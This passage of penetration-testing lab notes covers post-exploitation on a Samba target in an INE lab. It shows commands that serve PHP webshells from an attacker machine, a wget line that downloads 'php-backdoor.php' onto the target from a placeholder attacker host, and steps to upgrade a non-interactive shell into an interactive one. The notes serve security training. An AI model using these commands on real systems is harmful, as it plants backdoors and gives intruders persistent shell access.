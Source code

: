 ```bash
# Attacker machine
tumx    #Open the terminal
#Exploitation with MSFconsole in Terminal 0 ...​
/bin/bash -i

#CTRL b & c. Terminal 1 is opened
ipconfig
cd /usr/share/webshells/php/
python3 -m http.server 80
# CTRL+B then 0 (zero) to navigate to the first Terminal session

# Target machine. Ternimal 0
/bin/bash -i
wget http://AttakerMachineIP/php-backdoor.php
ls
```

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-3881bc1a643bbd134eba3dcaeed1b07ea5383ec9%2Fimage-20230428232055646.png?alt=media" alt=""><figcaption></figcaption></figure>

# Interactive Shells <a href="#interactive-shells" id="interactive-shells"></a>

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.

* After the exploitation (using `MSFconsole`, `netcat`, etc), a **non-interactive shell** is obtained since it doesn't provide with a prompt
  * This is a command shell session
 
**Set Environment variable for easy access to binaries**
env
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# set TERM 
export TERM=xterm
export SHELL=bash


* Non-interactive Shell

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-6779d49a717c21e3f41b609b3f42d87afae5543e%2Fimage-20230428234859491.png?alt=media" alt=""><figcaption></figcaption></figure>

* Display the list of **shells** on the target system

cat /etc/shells    # /etc/shells: valid login shells/bin/sh/bin/dash/bin/bash/bin/rbash​/bin/bash -i​/bin/sh -i

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-1437180395d983df1ebed08f7894baa3b9ef8623%2Fimage-20230428234334800.png?alt=media" alt=""><figcaption></figcaption></figure>

#### Spawn [TTY Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#spawn-shells)​ <a href="#spawn-tty-shells" id="spawn-tty-shells"></a>
